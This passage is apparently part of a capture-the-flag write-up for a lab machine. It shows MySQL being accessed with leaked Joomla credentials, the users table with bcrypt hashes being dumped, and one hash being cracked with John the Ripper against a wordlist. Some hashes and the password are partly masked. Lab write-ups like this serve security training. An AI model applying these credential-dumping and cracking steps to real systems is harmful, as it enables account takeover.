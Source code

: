## Privilege Escalation "www-data" -> "rogan"
Knowing that the credentials obtained from exploiting the Joomla information leak vulnerability were for MySQL, I proceeded to connect to MySQL to explore the users' table:
```
www-data@devvortex:~/dev.devvortex.htb/administrator$ mysql -u lewis -p
Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 26575
Server version: 8.0.35-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| joomla             |
| performance_schema |
+--------------------+
3 rows in set (0.00 sec)

mysql> use joomla;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> select username,password from sd4fg_users;
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| lewis    | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |
| logan    | $2y$10$IT4k5k--------------------------------------/yBtkIj12 |
+----------+--------------------------------------------------------------+
2 rows in set (0.00 sec)
```

In the users' table, I found another user, logan, with a BCrypt hashed password. To crack this hash, I created a file named hash.txt, placed the hash inside, and initiated the attack using John the Ripper:
```
john --format=bcrypt --wordlist=$wordlists/passwords/rockyou.txt hash.txt
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:12 0% 0g/s 52.88p/s 52.88c/s 52.88C/s billabong..froggy
teq-------cho    (?)
1g 0:00:00:26 100% 0.03763g/s 52.84p/s 52.84c/s 52.84C/s leelee..harry
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
The password was cracked in less than 20 seconds: teq-------cho.
